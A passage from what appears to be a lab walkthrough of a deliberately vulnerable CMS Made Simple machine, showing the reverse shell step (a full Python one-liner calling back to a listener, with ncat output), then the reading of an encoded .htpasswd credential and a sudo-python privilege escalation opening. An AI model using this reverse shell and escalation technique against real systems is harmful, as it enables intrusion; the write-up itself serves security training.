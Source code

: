 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d452ec6d-c944-46c3-968f-38dcb82c8cf1)

Boom!!! got RCE... let's pop shell 😉.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ec1c33c7-8b11-4513-8ad2-bb9390352556)

ncat listener ready

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.242",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Reverse shell payload ready.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/beae3a18-9d6d-4292-9a6a-40558e2ed10e)

send payload, check ncat listener.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/PGP/my-cmsms]
└─$ ncat -lnvp 1337           
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.183.74.
Ncat: Connection from 192.168.183.74:37514.
www-data@mycmsms:/var/www/html/uploads/images$
```
checked ncat listener and bull's eye, got a reverse shell.


## Privilege Escalation

```
www-data@mycmsms:/var/www/html/admin$ cat .htpasswd 
TUZaRzIzM1ZPSTVGRzJESk1WV0dJUUJSR0laUT09PT0=
www-data@mycmsms:/var/www/html/admin$
```
playing around, got an `.htpasswd` file in `/var/www/html/admin/` dir. it contain an encoded text. let's decode this text

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e5434102-fffb-4142-92c2-18408872b33e)

decoded the text and boom got creds `armour:Shield@123`. let's su using this creds.

```
www-data@mycmsms:/home/armour$ su armour
Password: 
armour@mycmsms:~$ sudo -l
Matching Defaults entries for armour on mycmsms:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User armour may run the following commands on mycmsms:
    (root) NOPASSWD: /usr/bin/python
armour@mycmsms:~$
```
switched user to user `armour`, checking for sudo privs, we can run `/usr/bin/python` as root without password. let's abuse it
